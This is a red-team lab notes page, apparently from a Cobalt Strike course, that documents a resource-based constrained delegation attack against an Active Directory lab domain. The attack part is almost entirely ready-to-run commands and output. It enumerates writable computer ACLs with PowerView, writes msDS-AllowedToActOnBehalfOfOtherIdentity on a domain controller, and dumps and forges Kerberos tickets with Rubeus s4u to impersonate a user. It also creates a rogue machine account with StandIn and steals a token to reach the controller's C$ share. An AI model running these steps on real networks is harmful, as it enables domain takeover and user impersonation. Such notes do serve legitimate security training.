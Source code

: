 > This abuse checks whether we have writing permissions on another computers (ACLs) and overwrites the msDS-AllowedToActOnBehalfOfOtherIdentity
> We need one of the following properties: WriteProperty, GenericAll, GenericWrite or WriteDacl

> This makes it much more likely to present itself as a privilege escalation / lateral movement opportunity

We need to things:

- A target computer on which you can modify msDS-AllowedToActOnBehalfOfOtherIdentity.
- Control of another principal that has an SPN.

In other words, Elevated access on ANY machine, and that elevated access must be with a user that is part of the group DEV\Developers, which is the group that has access WriteProperty on All

# First we query domain computers and read their ACL

```bash
powerview
powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

ObjectDN               : CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io (on the DC)
ActiveDirectoryRights  : Self, WriteProperty # Looking at this one
ObjectAceType          : All (over all properties)
ObjectSID              : S-1-5-21-569305411-121244042-2357301523-1000 (SID of object that is allowed)

```

# Check which group this is (we will need a user from this group to perform this attack)

```bash
powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
powerpick Get-DomainGroupMember -Identity Developers
```

---

# We then use the SID of our compromised Computer and add it to msDS-AllowedToActOnBehalfOfOtherIdentity

```bash
# Get SID
powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid
objectsid
---------
S-1-5-21-569305411-121244042-2357301523-1109

# Convert the content to  binary format
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)

# Update the value
powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

---

# Next we use the WKSTN-2$ account to perform s4u impersonation

```bash
# Get tickets
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

# Dump WKSTN-2$ ticket for krbtgt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

# Use that ticket to impersonate a user
exeute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

# Use the user tgs ticket for nlamb to start a process and store the token
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=
steal_token 1234
```

---

# In case we did not have access to an SPN, we can create our own machine (of course we still need to be a user of Developers)

```bash
# Check if we can create Computers
powershell Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota

# Create a computer
execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make

[?] Using DC    : dc-2.dev.cyberbotic.io
    |_ Domain   : dev.cyberbotic.io
    |_ DN       : CN=EvilComputer,CN=Computers,DC=dev,DC=cyberbotic,DC=io
    |_ Password : oIrpupAtF1YCXaw

# Calculate hash with computer password
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io

# Use the aes256 hash to ask for a tgt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044 /nowrap

# Use that ticket for s4u to impersonate a user
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:EvilComputer$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

# Create a process with the received ticket
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=

# Steal token
steal_token 4092
ls \\dc-2.dev.cyberbotic.io\c$

```
